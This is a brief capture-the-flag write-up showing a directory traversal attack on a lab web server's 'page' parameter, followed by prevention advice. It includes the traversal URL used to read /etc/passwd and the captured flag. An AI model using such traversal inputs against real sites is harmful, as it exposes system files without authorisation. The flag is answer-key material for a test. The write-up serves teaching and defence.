 # Description

When browsing the ctf website we notice something weird is that all pages are accessed by a url parameter which is page.

`http://10.14.59.83/index.php?page=`

# Attack

What we are going to do is try to see if we can access internal files using this parameter.

Let's try /etc/passwd.

`http://10.14.59.83/index.php?page=../../../../../../../etc/passwd`

And We got the flag

```text
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```

# Prevention

- **Input Validation:** Validate and sanitize user inputs thoroughly before using them. Do not allow any input that could potentially be used to navigate directories or access files outside of the intended scope.

- **Whitelist Valid Pages:** Maintain a whitelist of valid page names that are allowed to be accessed via the page parameter. Only allow pages that you have explicitly defined.

- **Parameter Sanitization:** Sanitize the page parameter by removing any special characters or sequences that could be used to perform directory traversal attacks, such as ../ or ..%2f.
